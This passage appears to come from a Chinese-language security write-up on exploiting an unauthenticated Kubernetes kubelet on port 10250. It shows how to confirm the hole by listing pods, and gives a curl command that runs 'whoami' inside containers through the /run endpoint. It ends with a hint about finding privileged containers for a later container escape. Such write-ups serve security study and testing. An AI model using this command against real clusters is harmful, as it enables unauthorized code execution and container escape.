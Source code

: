 修改 authentication 的 anonymous 为 true

之后访问 https://192.168.1.102:10250/pods 即可验证漏洞是否存在  
[![1640268929180.png](assets/1698894658-1536b666a40362a638706f7ea1b83893.png)](https://storage.tttang.com/media/attachment/2021/12/26/0b9e9162-5357-458c-bfcb-d3b0b7d75aa2.png)

```bash
curl -k https://172.18.0.2:10250/run/{namespace}/{podName}/{appName} -d "cmd=whoami"
```

直接命令执行  
[![1640269370248.png](assets/1698894658-1c2a4c1ec555b94a98c0380018d3ae68.png)](https://storage.tttang.com/media/attachment/2021/12/26/23201830-7da7-4ece-9e28-31a4f0691aa0.png)  
这里可以通过检索 securityContext 字段快速找到特权容器，方便之后逃逸容器  
[![1640270482693.png](assets/1698894658-56b229cdbd6bd1784fd4273573bcac97.png)](https://storage.tttang.com/media/attachment/2021/12/26/5655276a-eed6-45d0-8e90-d912effa59c5.png)

